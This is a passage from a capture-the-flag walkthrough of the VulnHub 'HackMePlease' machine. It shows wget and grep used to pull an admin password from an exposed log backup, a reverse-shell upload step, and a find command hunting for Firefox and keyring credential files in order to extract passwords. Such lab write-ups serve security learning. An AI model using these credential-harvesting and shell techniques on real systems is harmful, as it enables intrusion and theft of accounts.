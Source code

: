 	- `access.log.bak`
2. Download & Obtain password

	```
	┌──(root💀kali)-[~/vulnHub/HackMePlease/192.168.110.7/exploit/seeddms]
	└─# wget http://192.168.110.7/seeddms51x/seeddms-5.1.22/access.log.bak -q
	
	┌──(root💀kali)-[~/vulnHub/HackMePlease/192.168.110.7/exploit/seeddms]
	└─# cat access.log.bak | grep password
	127.0.0.1 - - [03/Jul/2021:00:01:12 -0700] "GET /seeddms51x/seeddms-5.1.22/out/backdoor.php?user=admin&password='HacK@#$L33T$%!@' HTTP/1.1" 401 4252 "/seeddms51x/seeddms-5.1.22/out/backdoor.php?user=admin&password=HacK@#$L33T$%!@" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
	```

	- admin:`HacK@#$L33T$%!@`
3. Login w/ admin:`HacK@#$L33T$%!@`
4. Upload Reverse shell

# Privilege Escalation

## Saket - Via Creds Found

1. Earlier, we obtained Saket's credentials
2. Switch to saket w/ saket:`Saket@#$1337`
	![](images/Pasted%20image%2020220201024743.png)

## Root - Via Sudo

1. After browsing through saket's home directory, there are firefox files
2. Obtain firefox files to extract password from it

	```
	saket@ubuntu:~$ find $(pwd)find $(pwd) 2>/dev/null | grep "key\|cookies\|logins\|cert"
	/home/saket/.gnupg/private-keys-v1.d
	/home/saket/.local/share/keyrings
	/home/saket/.local/share/keyrings/user.keystore
	/home/saket/.local/share/keyrings/login.keyring
	/home/saket/.mozilla/firefox/jokfpwvh.default-release/key4.db
	/home/saket/.mozilla/firefox/jokfpwvh.default-release/cookies.sqlite
	/home/saket/.mozilla/firefox/jokfpwvh.default-release/logins.json
	/home/saket/.mozilla/firefox/jokfpwvh.default-release/cert9.db
	/home/saket/.mozilla/firefox/jokfpwvh.default-release/logins-backup.json
	/home/saket/.mozilla/firefox/jokfpwvh.default-release/cookies.sqlite-wal
	```
